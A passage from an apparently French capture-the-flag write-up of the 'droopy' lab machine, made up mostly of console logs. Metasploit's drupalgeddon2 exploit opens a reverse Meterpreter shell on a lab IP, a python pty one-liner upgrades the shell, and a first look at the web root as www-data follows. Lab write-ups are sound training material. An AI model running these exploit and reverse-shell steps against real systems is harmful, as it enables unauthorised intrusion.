 ```console

msf exploit(unix/webapp/drupal_drupalgeddon2) > set RHOST 192.168.56.102
RHOST => 192.168.56.102

msf exploit(unix/webapp/drupal_drupalgeddon2) > exploit -j
[*] Exploit running as background job 0.

[*] Started reverse TCP handler on 192.168.56.101:4444 
[*] Drupal 7.x targeted at http://192.168.56.102/
[+] Drupal appears unpatched in CHANGELOG.txt
[*] Sending stage (37775 bytes) to 192.168.56.102
[*] Meterpreter session 1 opened (192.168.56.101:4444 -> 192.168.56.102:44530) at 2018-05-08 01:23:45 +0200
```

C'est gagné, nous avons un shell !

Il ne nous reste plus qu'à créer un [pseudo-terminal Bash](https://netsec.ws/?p=337) avec le module PTY.

```console
msf exploit(unix/webapp/drupal_drupalgeddon2) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer    : droopy
OS          : Linux droopy 3.13.0-43-generic #72-Ubuntu SMP Mon Dec 8 19:35:06 UTC 2014 x86_64
Meterpreter : php/linux

meterpreter > shell
Process 1276 created.
Channel 0 created.

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

python -c 'import pty; pty.spawn("/bin/bash");'

www-data@droopy:/var/www/html$ 
```

## Élévation fortuite de privilèges

Nous sommes connectés en tant que ```www-data``` sur le serveur. Partons à la recherche de fichiers intéressants...

```console
www-data@droopy:/var/www/html$ ls
ls
CHANGELOG.txt	    LICENSE.txt      includes	  modules     update.php
COPYRIGHT.txt	    MAINTAINERS.txt  index.html   profiles    web.config
INSTALL.mysql.txt   README.txt	     index.php	  robots.txt  xmlrpc.php
INSTALL.pgsql.txt   UPGRADE.txt      info.php	  scripts
INSTALL.sqlite.txt  authorize.php    install.php  sites
INSTALL.txt	    cron.php	     misc	  themes
```
